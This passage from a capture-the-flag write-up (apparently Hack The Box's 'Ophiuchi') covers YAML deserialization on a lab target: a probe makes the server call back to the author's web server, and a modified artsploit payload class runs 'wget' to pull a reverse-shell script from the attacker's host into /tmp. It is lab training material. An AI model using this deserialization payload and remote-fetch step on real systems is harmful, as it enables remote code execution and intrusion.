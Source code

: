 We stand up a python webserver on the port we specified in our yaml payload.

```
$sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then enter our yaml payload in the website and click on `Parse`.

[![probing.png](/img/ophiuchi/probing.png)](/img/ophiuchi/probing.png)

We get redirected to a page stating that the feature has been temporarily disabled due to security reasons.

[![disabled.png](/img/ophiuchi/disabled.png)](/img/ophiuchi/disabled.png)

However looking on our webserver we can see a hit from the target trying to get the file we specified.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.167.24 - - [03/Jul/2021 03:31:25] code 404, message File not found
10.129.167.24 - - [03/Jul/2021 03:31:25] "GET /test HTTP/1.1" 404 -
```

Following the blogpost further, we can use artsploit's [yaml-payload repository](https://github.com/artsploit/yaml-payload) to generate payloads for rce on the server. 

Following the documentation for the tool we modify the `AwesomeScriptEngineFactory` function in the `src/artsploit/AwesomeScriptEngineFactory.java` file.  In a first step we will use it to upload the `shell` file we prepared to the `/tmp` directory of the webserver.

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("wget 10.10.14.19/shell -O /tmp/revsh.sh");
        } catch (IOException e) {
```